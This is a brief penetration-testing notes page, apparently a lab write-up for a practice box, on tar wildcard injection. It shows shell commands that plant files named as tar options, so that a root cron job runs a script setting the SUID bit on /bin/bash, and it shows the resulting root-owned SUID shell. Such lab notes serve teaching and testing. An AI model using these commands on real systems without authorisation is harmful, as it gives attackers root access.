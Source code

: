 # Tar Wilcard Injection

![](<../../../.gitbook/assets/image (46).png>)

![](<../../../.gitbook/assets/image (63).png>)

Check to see where these scripts change their directory to. In this case it was the /var/www/html directory, somewhere were we have write access.&#x20;

### 1ST METHOD&#x20;

```
alice@readys:/var/www/html$ echo "chmod +s /bin/bash" > exploit.sh
echo "chmod +s /bin/bash" > exploit.sh
alice@readys:/var/www/html$ 
```

We then create two empty files using `touch`. The first will cause `tar` to cause a checkpoint on every file and the second will tell `tar` to execute our **exploit.sh** with `bash` on every checkpoint.

```
alice@readys:/var/www/html$ touch ./"--checkpoint=1"
touch ./"--checkpoint=1"
alice@readys:/var/www/html$ touch ./"--checkpoint-action=exec=bash exploit.sh"
touch ./"--checkpoint-action=exec=bash exploit.sh"
```

After a few minutes, we check if the cron job has run and if SUID is set on **/bin/bash**.

```
alice@readys:/var/www/html$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

You can follow this blog for the other different methods to escalate.&#x20;

{% embed url="https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/" %}

Refer to the box Readys.&#x20;

<details>

<summary>Examples</summary>

[https://app.gitbook.com/s/cG3oCXV6GXQITzoSNBJK/priv-escalation](https://app.gitbook.com/s/cG3oCXV6GXQITzoSNBJK/priv-escalation)

</details>
